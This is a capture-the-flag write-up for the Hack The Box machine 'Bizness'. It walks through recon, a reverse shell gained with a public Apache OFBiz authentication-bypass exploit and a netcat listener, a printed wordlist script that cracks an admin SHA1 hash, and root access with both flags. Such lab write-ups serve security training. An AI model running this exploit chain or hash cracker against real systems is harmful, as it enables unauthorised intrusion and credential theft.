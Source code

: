 # Bizness

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

We start with `nmap`:

```sh
$ nmap -A -T4 10.10.11.252
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 14:19 CET
Nmap scan report for 10.10.11.252
Host is up (0.031s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.09 seconds
```

Add `bizness.htb` to `/etc/hosts`:

```sh
$ echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

And load the page:

![start](./start.jpg)

Let's use [dirsearch](https://github.com/maurosoria/dirsearch) to search for directories:

```sh
$ dirsearch -u https://bizness.htb    

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11722

Output: /Users/vladimir/Downloads/CTF/reports/https_bizness.htb/_24-03-05_14-26-40.txt

Target: https://bizness.htb/

[14:26:40] Starting: 
[14:27:13] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[14:27:17] 400 -  795B  - /a%5c.aspx                                        
[14:27:20] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[14:28:06] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[14:28:12] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[14:28:12] 404 -  780B  - /common/config/api.ini                            
[14:28:12] 404 -  779B  - /common/config/db.ini                             
[14:28:12] 404 -  762B  - /common/
[14:28:17] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[14:28:17] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[14:28:17] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[14:28:18] 200 -   11KB - /control/login                                    
[14:28:20] 200 -   34KB - /control/                                         
[14:28:20] 200 -   34KB - /control 
```

We can try to open `accounting`:

![login](./login.jpg)

`OFBiz` login page... Let's search for exploits. We can find following links: [Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) *(I have contributed to this repo)* and [BadBizness-CVE-2023-51467](https://github.com/Jake123otte1/BadBizness-CVE-2023-51467), so we can set up netcat listener:

```sh
$ nc -l 9001
```

And execute the script:

```sh
python3 badbizness.py ysoserial-all.jar https://bizness.htb 10.10.14.92 9001   

=================================================================
       ______           _ _     _                         
       | ___ \         | | |   (_)                        
       | |_/ / __ _  __| | |__  _ _____ __   ___  ___ ___ 
       | ___ \/ _` |/ _` | '_ \| |_  / '_ \ / _ \/ __/ __|
       | |_/ / (_| | (_| | |_) | |/ /| | | |  __/\__ \__ \
       \____/ \__,_|\__,_|_.__/|_/___|_| |_|\___||___/___/

                                v1.0
                        written by twopoint                         
=================================================================

[+] Starting Badbizness...
[+] Payload generation successful!
[~] Attempting to get reverse shell...
[+] Payload executed. Check your listener!
```

And we have reverse shell! Let's get `user` flag:

```sh
$ cat /home/ofbiz/user.txt
fe56eabceddf1e6d184e44a2b5727685
```

Now we need to escalate our privileges to `root` user. Upon searching in directories, we can find the file `c6650.dat`, that contains some admin password:

```sh
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ strings c6650.dat
strings c6650.dat
system
&6)]
system
	anonymous
admin
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

I have used following script to decrypt it:

```sh
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        """
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

        :param hash_type: The hash algorithm to use (default is SHA).
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
        """
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        """
        Crypt a password using the specified hash type and salt.

        :param salt: The salt used in the encryption.
        :param value: The password value to be encrypted.
        :return: The encrypted password string.
        """
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
        """
        Get the encrypted bytes for a password.

        :param salt: The salt used in the encryption.
        :param value: The password value to get encrypted bytes for.
        :return: The encrypted bytes as a string.
        """
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

# Example usage:
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '../../dictionaries/rockyou.txt'

# Create an instance of the PasswordEncryptor class
encryptor = PasswordEncryptor(hash_type)

# Get the number of lines in the wordlist for the loading bar
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

# Iterate through the wordlist with a loading bar and check for a matching password
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        # Get the encrypted password
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        # Compare with the search hash
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  # Stop the loop if a match is found
```

Output:

```
Processing:  10%|█████                                              | 1437509/14344391 [00:03<00:32, 401394.49it/s]
Found Password:monkeybizness, hash:$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I=
```


So we can switch user to root and read the flag:

```sh
ofbiz@bizness:/opt/ofbiz$ su
su
Password: monkeybizness
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
d8c48466b1ce37b2fe01e222384360b5
```

## Final Flags

> `user`: fe56eabceddf1e6d184e44a2b5727685
> `root`: d8c48466b1ce37b2fe01e222384360b5

*Created by [bu19akov](https://github.com/bu19akov)*